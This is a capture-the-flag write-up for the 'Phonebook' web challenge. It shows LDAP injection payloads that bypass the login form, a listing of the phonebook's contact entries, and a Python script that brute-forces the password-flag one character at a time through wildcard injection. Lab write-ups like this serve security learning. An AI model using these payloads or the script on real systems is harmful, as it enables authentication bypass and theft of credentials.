


# Phonebook

When we see the login form on the website, it might be command injection, `SQL injection`, `LDAP injection`. 

We can see that this need us to login with workstation username, it might be `LDAP injection`.
<p align="center">

</p>
This is an example of `LDAP injection` payload. We can check for vulnerabilities.

```
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&)) 

```
<p align="center">

</p>
Our response showed successful, and a search box appeared when we clicked the button.

Then we type a character in the search box, and it returns some user phonebook information. I tried `flag`, `HTB`, it doesn't find any results.
> If you search for `space`, you will see such information
```
Kyle Reese	reese@skynet.com	555-1234567
Ellery Hun	ehun1z@reddit.com	317-959-9562
Madelaine Lush	mlush5@deliciousdays.com	636-918-1006
Currey Conti	cconti0@auda.org.au	529-673-3935
Chaim Smoth	csmothf@sbwire.com	895-974-4117
Eldin Jelf	ejelf1u@google.pl	363-426-3563
Ganny Marti	gmartih@diigo.com	796-793-6925
Jobey Olley	jolleyx@abc.net.au	607-345-0290
Katalin Wilde	kwildep@plala.or.jp	414-839-2681
Stinky Trood	stroodz@foxnews.com	933-416-1003
Tab Zoren	tzorenq@mit.edu	360-678-3613
Ursula Beer	ubeer2f@live.com	794-396-6882
Bryan Arman	barman1x@exblog.jp	640-255-8092
Babette Cunio	bcunio2h@macromedia.com	709-363-0223
Berget Novis	bnovis1j@constantcontact.com	780-278-2572
Ced Engley	cengleyi@springer.com	230-780-1999
Caryn Germon	cgermon4@wiley.com	967-789-6335
Devina Alcide	dalcideu@arizona.edu	828-947-3484
Dionne Lammas	dlammask@washingtonpost.com	824-561-5676
Emmalynn Burnup	eburnupd@networkadvertising.org	148-856-7052
Fredericka Hanks	fhanks1s@census.gov	762-337-5667
Hannah Inder	hinder2a@canalblog.com	315-711-6454
Jay Sharma	jsharmay@t.co	893-382-5236
Lilyan Crepel	lcrepel6@ucoz.com	851-980-1038
...
```
Then we try to find user `Reese`, but the information doesn't look like flag.

output : `Kyle Reese	reese@skynet.com	555-1234567`

Then we change our `payload` to check if the password is the flag.

```
user=Reese
password=HTB*)(&
--> (&(user=Reese)(password=HTB*)(& 
```
This indicates that the payload logs into the web successfully with the payload!

> `The password is the flag!`

## Brute force

We need to get the flag through `brute force`. To do this, write a `Python script`.

```python
import requests
import string

URL = "~"

asciiLower = list(string.ascii_lowercase)

asciiUppercase = list(string.ascii_uppercase)

passwordList = asciiLower + asciiUppercase + [str(i) for i in range(10)] + ["_", "}"]

payload = "HTB{"
password = ""

while True:
    for ch in passwordList:
        password = payload + ch + "*)(&"

        data = {"username": "Reese", "password": password}
        re = requests.post(URL, data=data)

        if "success" in re.text:
            payload += ch
            print(payload)

```
The flag is like this 👌👉  `HTB{d1rectory_******_**_****}`